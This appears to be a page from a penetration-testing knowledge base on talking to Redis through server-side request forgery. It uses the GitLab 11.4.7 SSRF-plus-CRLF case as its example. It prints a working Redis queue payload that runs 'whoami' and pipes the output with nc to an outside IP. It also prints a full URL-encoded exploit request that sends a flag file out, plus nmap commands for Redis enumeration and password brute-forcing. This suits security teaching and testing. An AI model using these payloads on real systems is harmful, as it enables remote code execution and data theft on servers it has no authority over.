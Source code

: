 ## SSRF talking to Redis

If you can send **clear text** request **to Redis**, you can **communicate with it** as Redis will read line by line the request and just respond with errors to the lines it doesn't understand:

```
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Accept-Encoding:'
-ERR unknown command 'Via:'
-ERR unknown command 'Cache-Control:'
-ERR unknown command 'Connection:'
```

Therefore, if you find a **SSRF vuln** in a website and you can **control** some **headers** (maybe with a CRLF vuln) or **POST parameters**, you will be able to send arbitrary commands to Redis.

### Example: Gitlab SSRF + CRLF to Shell

In **Gitlab11.4.7** were discovered a **SSRF** vulnerability and a **CRLF**. The **SSRF** vulnerability was in the **import project from URL functionality** when creating a new project and allowed to access arbitrary IPs in the form \[0:0:0:0:0:ffff:127.0.0.1] (this will access 127.0.0.1), and the **CRLF** vuln was exploited just **adding %0D%0A** characters to the **URL**.

Therefore, it was possible to **abuse these vulnerabilities to talk to the Redis instance** that **manages queues** from **gitlab** and abuse those queues to **obtain code execution**. The Redis queue abuse payload is:

```
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
```

And the **URL encode** request **abusing SSRF** and **CRLF** to execute a `whoami` and send back the output via `nc` is:

```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20127%2E0%2E0%2E1%202222%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf123321.git
```

Enumeration
nmap --script redis-info -p 6379 <target-ip>
nmap --script redis-brute -p 6379 <target-ip>
